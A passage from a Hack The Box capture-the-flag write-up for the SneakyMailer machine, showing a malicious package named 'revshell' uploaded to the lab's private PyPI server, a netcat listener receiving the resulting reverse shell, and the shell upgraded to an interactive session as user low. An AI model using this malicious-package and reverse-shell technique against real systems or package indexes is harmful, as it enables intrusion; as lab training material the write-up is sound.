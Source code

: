 Now, you must create the package and upload it in the one command (else it will not work):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer/revshell]
└─$ python setup.py sdist upload -r sneaky
/usr/lib/python2.7/distutils/dist.py:267: UserWarning: Unknown distribution option: 
'zip_safe' warnings.warn(msg)
running sdist
running check
warning: sdist: manifest template 'MANIFEST.in' does not exist (using default file list)

warning: sdist: standard file not found: should have one of README, README.txt

writing manifest file 'MANIFEST'
creating revshell-0.0.1
making hard links in revshell-0.0.1...
hard linking setup.cfg -> revshell-0.0.1
hard linking setup.py -> revshell-0.0.1
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)
running upload
Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
```

That was fast, I could not even see the package appearing on the page. Look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ nc -lvnp 443              
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.197] 54074
$ python -c 'import pty;pty.spawn("/bin/bash")'
low@sneakymailer:/$ export TERM=xterm
export TERM=xterm
low@sneakymailer:/$ ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

low@sneakymailer:/$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),
44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
low@sneakymailer:/$ ^C
```

There is the shell as user low. 

### User Flag

---
